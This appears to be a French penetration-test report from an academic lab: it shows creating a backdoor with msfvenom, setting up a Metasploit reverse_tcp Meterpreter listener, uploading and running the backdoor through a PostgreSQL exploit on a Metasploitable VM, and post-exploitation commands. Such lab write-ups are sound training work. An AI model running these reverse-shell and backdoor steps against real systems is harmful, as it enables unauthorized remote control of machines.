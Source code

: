 ## Rapport de Test d'Intrusion - Laboratoire Contrôlé
```
Auteur : SALEM KAWEINA NGAMDERE
Date : 30 Mai 2025
Environnement : Local Lab (VM Kali Linux + Metasploitable 2.0)
```

## 1. Introduction
    • Objectif : Démontrer les étapes d'un contrôle d’un systeme par  backdoor.
    • Autorisation : Exercice académique sous supervision.
    • - msfvenom (version X.Y)
    • - Metasploit Framework
    • - Machine cible : Ubuntu 
# 2. Méthodologie
Étape 1 : Création du Payload (Backdoor)
    • Outil : msfvenom 
      msfvenom -p <OS>/<arch>/<payload_type> LHOST=<IP_LOCALE> LPORT=<PORT> -f <format> -o <fichier_sortie>
        ◦ Description :
            ▪ Génération d'un payload pour la cible (Ubuntu, architecture x86).
            ▪ Format de sortie .elf
            
# Étape 2 : Mise en place de l'Écouteur (Listener)
    • Outil : Metasploit (multi/handler)
        msf6 > use exploit/multi/handler
        msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
        
    • Paramétrage de l'Écouteur
```
      msf6 exploit(multi/handler) > set LHOST X.X.X.X
      msf6 exploit(multi/handler) > set LPORT PORT
      msf6 exploit(multi/handler) > run
	[*] Started reverse TCP handler on X.X.X.X:PORT
```
    
# Étape 3 : Exécution sur la Cible
    • Méthode de livraison 
          Vulnerabilité postgresql  exploitée à travers le payload postgresql_payload. Après obtention de shell meterpreter.
        ◦ Téléchargement du backdoor 
              upload /chemin/backdoor.elf
        ◦ Éxécution du backdoor.
              Chmod +x backdoor.elf   # Pour le backdoor rendre éxécutable
			./backdoor  	#Pour éxécuter le backdoor

    • Établissement de la Session
	Une fois le backdoor éxécuté sur la cible, la session est établie automatiquement
		[*] Started reverse TCP handler on X.X.X.X:PORT 
		[*] Sending stage (989032 bytes) to Y.Y.Y.Y
		[*] Meterpreter session 1 opened ( X.X.X.X:PORT -> Y.Y.Y.Y:PORT ) at X-Y-Z  

#Étape 4 : Exploitation & Post-Exploitation
    • Commandes exécutées :
        ◦ pwd
			/home/msfadmin
        ◦ sysinfo
			Computer     : metasploitable.localdomain
OS           : Ubuntu 8.04 (Linux 2.6.24-16-server)
Architecture : i686
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux

